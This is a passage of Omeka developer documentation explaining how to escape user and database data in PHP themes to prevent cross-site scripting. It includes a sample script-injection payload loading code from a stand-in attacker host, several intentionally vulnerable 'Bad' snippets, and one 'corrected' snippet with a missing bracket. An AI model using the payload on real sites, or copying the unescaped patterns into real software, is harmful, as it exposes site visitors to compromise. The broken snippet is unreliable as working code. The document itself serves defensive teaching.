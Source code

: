 Escaping Data
=============

*Note to theme designers*: Omeka themes should be secure out of the box, so theme designers who do not plan on modifying or adding PHP code to the existing themes will not need to worry about this. However, this
document details best practices for web development in general, so theme writers who are also web developers may find it useful.

The Gist 
---------------------------------------------------------

Data that comes from the user is untrustworthy. "User data" includes
both data retrieved from the database as well as input from any given
user request (e.g. from the URL, form submissions, etc.). The way to
avoid problems from untrustworthy data is twofold: validating data prior to storing in the database, and escaping data properly before display. Omeka takes care of validating data that will go into the database (though not automatically for plugins -- that is responsibility of plugin writers), but ensuring the security of displayed data is, unfortunately, the responsibility of the theme writer. Failing to do this won't always leave your Omeka site open to attack, but under certain circumstances it will. The only way to prevent problems for certain is to make sure that data is escaped properly before display.

What could possibly go wrong?
-----------------------------------------------------------------------------------------------------

Just for example, suppose you have a theme that displays the search
query for which results are being displayed, and the code currently
looks like this:


``` {.de1}
Search Results for: <?php echo $_GET['search']; ?>
```

How XSS Attacks Work
---------------------------------------------------------------------------------

If someone did a search for: &lt;script src="my-evil-site.com/bad.js"&gt;&lt;/script&gt;, that search query is stored in \$\_GET\['search'\], so that bad HTML would be injected directly into the search results page, and the evil javascript would run. Then the attacker could send some 3rd party a link to those search results, and when that third person followed the link, they would be compromised by the bad javascript.

How to Prevent These Attacks 
-------------------------------------------------------------------------------------------------

Omeka has a set of helper functions that need to be used in situations
such as this. The most important of these is html\_escape(), which
basically translates a PHP value into valid HTML by encoding HTML
entities so that &lt; becomes &lt;, &gt; becomes &gt;, etc. PHP
developers will recognize the similarity to PHP's builtin htmlentities() function, which is basically what this is, with the added ability for plugins to filter the output if necessary.

The previous example could be corrected by wrapping the \$\_GET parameter in html\_escape(), like so:

``` {.de1}
Search Results for: <?php echo html_escape($_GET['search'); ?>
```

Why Doesn't Omeka Do This Automatically? 
-----------------------------------------------------------------------------------------------------------------------------

There are a few complicated reasons why the current version of Omeka
can't escape all data automatically for theme writers, most of which has
to do with the fact that there seems to be no one-size-fits-all solution
for this type of problem. That said, we're looking into possible
solutions for future releases that would make this easier. Users are
welcome to contribute suggestions on the dev mailing list.

Caveats 
-------------------------------------------------------

Not everything in a theme needs to be (nor should be) escaped using
html\_escape(). Important counterexamples include helper functions that
generate HTML, e.g. auto\_discovery\_link\_tag(), link\_to(), etc. Also,
the output of certain functions like item() should not be escaped, as
that is taken care of automatically based on whether or not the field
was marked as HTML in the admin.

In addition, this may seem obvious, but pretty much any data over which
the theme designer has control does not need to be escaped. For example,
escaping literal strings, such as the following, is pointless:



``` {.de1}
<?php echo html_escape('cookies & cream'); ?>
```


Instead, it should just be:



``` {.de1}
cookies &amp; cream
```


Useful Examples of When to Escape Data
---------------------------------------------------------------------------------------------------------------------

### User Input

Superglobals like \$\_REQUEST, \$\_GET, \$\_POST, and \$\_SERVER should
always be escaped before display.

-   Bad:


``` {.de1}
Search terms: <?php echo $_GET['search']; ?>
```



-   Good:


``` {.de1}
Search terms: <?php echo html_escape($_GET['search']); ?>
```


### From Database

-   Bad:


``` {.de1}
Welcome, <?php echo current_user()->first_name; ?>
```



-   Good:


``` {.de1}
Welcome, <?php echo html_escape(current_user()->first_name); ?>
```


### URLs

In HTML, "href" and "src" attributes must always contain a URL that is
properly escaped.

-   Bad:


``` {.de1}
<a href="<?php echo uri('items/browse'); ?>">Go to Items</a>
```



-   Good:



``` {.de1}
<a href="<?php echo html_escape(uri('items/browse')); ?>">Go to Items</a>
```



-   Better:


``` {.de1}
<?php echo link_to('items', 'browse', 'Go to Items'); ?>
```



Also, URL query string parameters must be properly encoded with
urlencode() before they are escaped.

-   Bad:


``` {.de1}
<a href="<?php echo uri('items/browse?tags=' . $tag); ?>">
```


-   Good:


``` {.de1}
<a href="<?php echo html_escape(uri('items/browse?tags=' . urlencode($tag))); ?>">
```



-   Better:


``` {.de1}
<a href="<?php echo html_escape(uri('items/browse', array('tags'=>$tag))); ?>">
```


### Javascript and XML

For developers writing javascript and XML, Omeka has 2 functions (since
Omeka 1.1) for escaping data: js\_escape() and xml\_escape(). These are
necessary because the behavior of html\_escape() is not necessarily
desirable (or valid) for translating from PHP to Javascript or XML.
Basically, any context for using html\_escape() in a theme applies also
to js\_escape() or xml\_escape().

-   Bad Example in Javascript:


``` {.de1}
new Ajax.Request("<?php echo uri("items/change-type") ?>");
```


-   How it should be done:


``` {.de1}
new Ajax.Request(<?php echo js_escape(uri("items/change-type")) ?>);
```

